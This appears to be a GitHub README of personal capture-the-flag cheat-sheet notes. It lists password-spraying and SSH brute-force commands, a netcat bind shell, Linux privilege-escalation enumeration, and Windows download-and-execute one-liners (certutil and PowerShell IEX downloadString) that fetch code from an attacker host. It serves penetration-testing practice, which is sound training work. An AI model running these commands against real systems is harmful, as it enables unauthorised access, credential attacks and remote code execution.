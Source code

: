 # ctf_notes
notes gathered from doing numerous CTFs to help with further CTFs
<p> -----------------------------------------------------------------------------------------
<p> Windows & *nix:
<p> - password spraying:
<p> crackmapexec [module] -u [users.txt] -p [passwords.txt] [ip or ip range]
<p> - bruteforce (more options may be required, example used was SSH module):
<p> medusa -h [ip] -U [users.txt] -P [passwords.txt] -M [module] [ip] 
<p> general notes:
<p> known hosts ssh file will show all hosts the host has SSH'd into
<p> - command to reset a broke terminal session
<p> $> reset
<p> - ssh using private rsa instead of password:
<p> ssh -i [private rsa] [user]@[ip]
<p> - impacket tools location on kali
<p> /usr/share/doc/python3-impacket/examples/
<p> -----------------------------------------------------------------------------------------
</p>
<p> upgrade shell using python pty library and adds auto complete for steps 2+ :
<p> 1 - python -c 'import pty;pty.spawn("/bin/bash")'
<p> 2 - CTRL z
<p> 3 - stty raw -echo
<p> 4 - fg <enter key>
<p> 5 - export TERM=xterm
<p> -----------------------------------------------------------------------------------------
<p> - mysql syntax for navigation:
<p> show databases; (shows available databases)
<p> use [database name]; (selects database to use)
<p> show tables; (shows tables in database)
<p> describe [table name]; (shows more information on values inside table)
<p> select [table value] from [table]; (shows items inside the table values of the table)
<p> -----------------------------------------------------------------------------------------
<p> - use rpcclient to :
<p> rpcclient

<p> -----------------------------------------------------------------------------------------
<p> - file upload (works with powershell and linux):
<p> curl http://[ip]:[port]/[file] -output [file]
<p> - monitor all root processes:
<p> while true;do ps -ef | grep sh | grep -v sshd | grep root; done;
<p> show all files we have read access on:
<p> find . -readable






<p> *nix:
<p> common privilege escalation techniques:
<p> - seeing if any commands can be run as sude:
<p> sudo -l
<p> - check which programs are avilable on the system for priviledge escalation and send errors away from output
<p> which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
<p> - download all FTP contents (--no-passive if passive is not allowed):
<p> wget -m htp:anonymous:anonymous@<remote IP> (--no-passive) 
<p> - bind shell:
<p> (victim) nc -lp <port> -e /bin/bash  (attacker) rlwrap nc <ip> <port>
<p> - listing file/ directory structure:
<p> find . 
<p> - listing file structure and look for specific file/ directory name
<p> find . | grep -i <word to look for>
<p> - show all running processes:
<p> ss -lntp
<p> -find all running processes belonging to a specfic user
<p> ps -ef | grep <user>
<p> - SUID file enum:
<p> find / -perm -4000 -ls 2>/dev/null
<p> - find files belonging to a specific user:
<p> find / -user <user> -ls 2>/dev/null
<p> - get files running on localhost:
<p> curl http://127.0.0.1:[port>]/[file]
<p> -search for value [words] inside all files recursively:
<p> grep -r [words] ./





Windows:

windows powershell locations:
c:\Windows\System32\    - 32 bit
c:\Windows\SysWow64\    - 32 bit
c:\Windows\SysNative\   - 64 bit


File download:
cmd.exe
- certutil -urlcache -f http://<ip>:<port>/<file> <file output>

powershell:
- file upload (will auto run any .ps1 scripts): 
powershell IEX(New-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")
- using powershell directly causes reverse shell crash:
echo 'IEX(Net-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")' | powershell -noprofile - 
  
